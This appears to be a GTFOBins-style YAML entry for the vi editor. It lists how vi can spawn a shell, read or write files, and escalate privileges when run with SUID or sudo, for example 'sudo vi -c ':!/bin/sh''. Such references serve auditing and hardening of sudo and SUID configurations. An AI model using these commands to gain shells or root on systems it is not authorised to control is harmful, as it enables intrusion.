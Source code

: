 ```yaml
---
functions:
  execute-interactive:
  - code: vi -c ':!/bin/sh'
  - code: |
      vi
      :set shell=/bin/sh
      :shell
  file-write:
  - code: |
      vi file_to_write
      w
  file-read:
  - code: 'vi file_to_read

'
  suid-enabled:
  - code: "./vi -c ':!/bin/sh -p'"
  sudo-enabled:
  - code: sudo vi -c ':!/bin/sh'
---
```

